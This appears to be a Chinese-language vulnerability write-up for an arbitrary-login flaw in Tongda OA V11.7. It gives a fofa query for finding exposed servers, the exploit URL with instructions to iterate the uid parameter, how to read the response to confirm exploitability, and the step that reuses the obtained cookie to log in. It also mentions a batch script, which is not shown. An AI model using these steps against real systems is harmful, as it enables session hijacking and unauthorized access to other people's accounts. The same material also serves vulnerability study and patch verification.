


# 1、写在前方
漏洞利用虽然不复杂，但是因为条件限制，有点看脸的赶脚，fofa上第二页才找到一个可利用的，所以吧。。。
# 2、漏洞描述
通达OA V11.7版本存在任意在线用户登录漏洞，只需账号是已登录状态，其他访问者无需账号、密码即可登录该账号。
使用fofa语句搜索该版本的通达OA

```
app="TDXK-通达OA"
```


# 3、漏洞验证
## 3.1、漏洞URL
访问如下URL（重点是URI部分，尤其是uid），更改遍历uid的值（数字），即可实现任意在线用户登录。

```
http://x.x.x.x:port/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```


## 3.2、漏洞验证
页面返回为空白，则证明可利用


页面返回RELOGIN，则不能利用



若漏洞可利用，则我们已经获取到了登录的cookie



# 4、漏洞利用
此时我们将URL改为如下内容（其实改的URI部分），然后访问，发现就已经成功登录了。

```
http://x.x.x.x:port/general/
```


# 5、脚本
这个漏洞poc与exp差不多，脚本会返回漏洞URL、可直接登录的cookie，与框架结合可批量。

